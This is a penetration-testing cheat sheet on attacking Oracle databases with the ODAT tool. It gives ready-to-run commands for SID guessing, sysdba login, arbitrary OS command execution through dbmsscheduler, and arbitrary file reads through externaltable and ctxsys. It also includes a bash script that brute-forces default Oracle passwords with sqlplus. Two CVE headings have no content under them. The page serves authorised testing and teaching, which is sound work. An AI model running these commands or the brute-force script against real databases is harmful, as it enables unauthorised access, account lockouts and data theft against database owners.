 # Oracle Databases

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool.  This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data.  However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information.  Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running.  However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set.  Alternatively pass the `--sysdba` flag to odat when logging in:

```
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## SID Enumeration

The SID for Oracle identifies the database instance running.  We can use ODAT to enumerate these SID's and find instances to attack.  These have to be explicity set in the command so it's important that you verify any one's available.

```
./odat.py sidguesser  -s 10.10.10.82
```

## Username Brute-force

Generally usernames are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case.  Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate.  I'm joking, don't do that.

The following bash script can perform a dirty manual brute-force using sqlplus, so it's important to adjust your path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/lib/oracle/12.2/client64/bin/sqlplus -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

We can use dbmsscheduler in odat to execute arbitrary commands, however the results are not displayed.  You'll have to use one of the many file transfer methods to fetch the output of this command.

```
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password--sysdba
```

## CVE 2012-1675 \(TNS Poisoning\)

## CVE-2012-3137

[Alternative Script \(untested\)](https://github.com/r1-/cve-2012-3137)

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](/h ttp://www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)

